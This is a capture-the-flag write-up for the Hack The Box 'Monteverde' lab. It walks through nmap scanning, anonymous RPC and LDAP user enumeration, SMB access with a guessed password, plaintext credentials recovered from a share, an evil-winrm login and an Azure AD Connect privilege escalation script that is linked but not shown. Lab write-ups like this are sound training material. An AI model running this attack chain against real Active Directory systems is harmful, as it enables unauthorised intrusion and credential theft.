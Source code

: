 # Monteverde
## NMap
`nmap -A -T5 -p- 10.10.10.172`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-24 14:46 CET
Nmap scan report for 10.10.10.172
Host is up (0.054s latency).
Not shown: 65518 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-24 13:01:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49775/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/24%Time=5E7A0FEC%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Timing level 5 (Insane) used
No OS matches for host
Network Distance: 2 hops
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -48m05s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-03-24T13:03:52
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   53.68 ms 10.10.14.1
2   54.11 ms 10.10.10.172

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 434.17 seconds
```

`nmap -n -sV --script "ldap*" -p 389 monteverde.htb` -> result [here][2]


## Enumerating RPC

`rpcdump.py 10.10.10.172 -p 135 > rpcdump.log`

`rpcclient -W workgroup -c querydispinfo -U '' -N monteverde.htb`

```
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
```
## GetADUSer Impacket

`GetADUsers.py -all megabank.local/ -dc-ip 10.10.10.172`

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Querying 10.10.10.172 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Guest                                                 <never>              <never>             
AAD_987d7f2f57d2                                      2020-01-02 23:53:24.984897  2020-03-24 06:18:32.499762 
mhope                                                 2020-01-03 00:40:05.908924  2020-03-24 14:42:29.953052 
SABatchJobs                                           2020-01-03 13:48:46.392235  2020-03-24 12:19:19.202876 
svc-ata                                               2020-01-03 13:58:31.332169  <never>             
svc-bexec                                             2020-01-03 13:59:55.863422  <never>             
svc-netapp                                            2020-01-03 14:01:42.786264  <never>             
dgalanos                                              2020-01-03 14:06:10.519660  <never>             
roleary                                               2020-01-03 14:08:05.832167  <never>             
smorgan                                               2020-01-03 14:09:21.629084  <never>             
```
***SABatchJobs:SABatchJobs*** can log via smb

## Smbclient

`smbclient -L //10.10.10.172 -U SABatchJobs`

`smbclient //10.10.10.172/users$ -U SABatchJobs`

inside Directory mhope there is a file [azure.xml][3] containing a password

***mhope:4n0therD4y@n0th3r$***

## Evil win

`ruby evil-winrm.rb -i monteverde.htb -u mhope -p 4n0therD4y@n0th3r\$`

## Azure exploit
Run [a.ps1][1]
***administrator:d0m@in4dminyeah!*** login via evil win 

[#]://
[1]: a.ps1
[2]: nmap-ldap.txt
[3]: azuere.xml

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
